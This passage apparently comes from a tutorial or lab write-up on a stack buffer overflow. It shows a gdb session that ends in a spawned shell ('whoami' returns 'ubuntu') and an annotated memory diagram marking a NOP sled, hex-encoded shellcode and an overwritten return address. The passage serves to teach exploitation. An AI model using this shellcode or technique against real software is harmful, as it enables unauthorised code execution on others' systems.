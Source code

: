 ```bash
0x7fffffffdfe0:	0xffffe35c	0x00007fff	0x00000000	0x00000000
0x7fffffffdff0:	0xffffe383	0x00007fff	0xffffe38e	0x00007fff
0x7fffffffe000:	0xffffe3a0	0x00007fff	0xffffe3d2	0x00007fff
0x7fffffffe010:	0xffffe3e3	0x00007fff	0xffffe3f9	0x00007fff
0x7fffffffe020:	0xffffe408	0x00007fff	0xffffe43d	0x00007fff
0x7fffffffe030:	0xffffe44e	0x00007fff	0xffffe465	0x00007fff
0x7fffffffe040:	0xffffe475	0x00007fff	0xffffe480	0x00007fff
0x7fffffffe050:	0xffffe492	0x00007fff	0xffffe4c6	0x00007fff
0x7fffffffe060:	0xffffe50a	0x00007fff	0xffffe539	0x00007fff
0x7fffffffe070:	0xffffe545	0x00007fff	0xffffea66	0x00007fff
0x7fffffffe080:	0xffffeaa0	0x00007fff	0xffffead4	0x00007fff
0x7fffffffe090:	0xffffeb04	0x00007fff	0xffffeb37	0x00007fff
(gdb) c
Continuing.

Breakpoint 3, 0x00000000004005b0 in vulnerable_function ()
(gdb) c
Continuing.
process 3607 is executing new program: /bin/dash
Error in re-setting breakpoint 1: No symbol table is loaded.  Use the "file" command.
Error in re-setting breakpoint 2: No symbol table is loaded.  Use the "file" command.
Error in re-setting breakpoint 3: No symbol table is loaded.  Use the "file" command.
Error in re-setting breakpoint 1: No symbol "vulnerable_function" in current context.
Error in re-setting breakpoint 2: No symbol "vulnerable_function" in current context.
Error in re-setting breakpoint 3: No symbol "vulnerable_function" in current context.
Error in re-setting breakpoint 1: No symbol "vulnerable_function" in current context.
Error in re-setting breakpoint 2: No symbol "vulnerable_function" in current context.
Error in re-setting breakpoint 3: No symbol "vulnerable_function" in current context.
Error in re-setting breakpoint 1: No symbol "vulnerable_function" in current context.
Error in re-setting breakpoint 2: No symbol "vulnerable_function" in current context.
Error in re-setting breakpoint 3: No symbol "vulnerable_function" in current context.
$ whoami
ubuntu


```

* Finally we got the shell.

```bash
                                +------------> Nop Sled  
                                |
+--->0x7fffffffdea0:  0xf7ffe1c8|	0x00007fff	0xffffe35c	0x00007fff
|                     +---------|-+----------------------------------+
|    0x7fffffffdeb0:  |0x90909090 |0x48c03190 0x969dd1bb 0x978cd091  |
|                     +-----------|                                  |<------- ShellCode
|                     +-----------|                                  |
|    0x7fffffffdec0:  |0xdbf748ff 0x995f5453 0x5e545752 0x050f3bb0   |
|                     +----------------------+-----------------------+
|    0x7fffffffded0:  |0xffffdea0 0x00007fff | 0x004005d4 0x00000000
|                     +----------------------+
|                            |         /|\
|                            |          |
+----------------------------+          +---------------< Return Address
0x7fffffffdee0:	0xffffdfd8	0x00007fff	0x00000000	0x00000002
0x7fffffffdef0:	0x00000000	0x00000000	0xf7a35ec5	0x00007fff
0x7fffffffdf00:	0x00000000	0x00000000	0xffffdfd8	0x00007fff
0x7fffffffdf10:	0x00000000	0x00000002	0x004005b2	0x00000000
0x7fffffffdf20:	0x00000000	0x00000000	0xc2626996	0x8ac7dcae
0x7fffffffdf30:	0x00400490	0x00000000	0xffffdfd0	0x00007fff
0x7fffffffdf40:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffdf50:	0x7c626996	0x75382351	0x7e986996	0x753833e8

```
